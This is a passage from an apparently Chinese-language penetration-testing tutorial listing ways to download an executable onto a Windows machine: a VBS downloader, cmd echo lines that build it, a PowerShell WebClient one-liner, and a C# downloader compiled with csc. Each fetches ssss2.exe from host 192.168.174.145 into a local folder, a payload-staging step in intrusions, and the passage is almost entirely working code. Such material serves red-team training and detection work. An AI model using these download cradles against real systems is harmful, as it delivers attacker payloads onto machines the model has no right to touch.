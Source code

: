 ### 3、vbs

vbs downloader,使用msxml2.xmlhttp和adodb.stream对象

如下代码保存为.vbs文件：

```
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET","http://192.168.174.145/ssss2.exe",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "C:\test\update\ssss2.exe",2

```

对应到cmd下的命令为：

```
echo Set Post = CreateObject("Msxml2.XMLHTTP") >>download.vbs
echo Set Shell = CreateObject("Wscript.Shell") >>download.vbs
echo Post.Open "GET","http://192.168.174.145/ssss2.exe",0 >>download.vbs
echo Post.Send() >>download.vbs
echo Set aGet = CreateObject("ADODB.Stream") >>download.vbs
echo aGet.Mode = 3 >>download.vbs
echo aGet.Type = 1 >>download.vbs
echo aGet.Open() >>download.vbs
echo aGet.Write(Post.responseBody) >>download.vbs
echo aGet.SaveToFile "C:\test\update\ssss2.exe",2 >>download.vbs

```

按顺序依次执行后会生成download.vbs，然后执行download.vbs即可实现下载ssss2.exe

### 4、powershell

cmd：

```
powershell (new-object System.Net.WebClient).DownloadFile( 'http://192.168.174.145/ssss2.exe','C:\test\update\ssss2.exe')

```

### 5、csc

csc.exe是微软.NET Framework 中的C#编译器，Windows系统中默认包含，可在命令行下将cs文件编译成exe

c# downloader的代码为：

```
using System.Net;
namespace downloader
{
    class Program
    {
        static void Main(string[] args)
        {
            WebClient client = new WebClient();
            string URLAddress = @"http://192.168.174.145/ssss2.exe";
            string receivePath = @"C:\test\update\";
            client.DownloadFile(URLAddress, receivePath + System.IO.Path.GetFileName
        (URLAddress));
        }
    }
```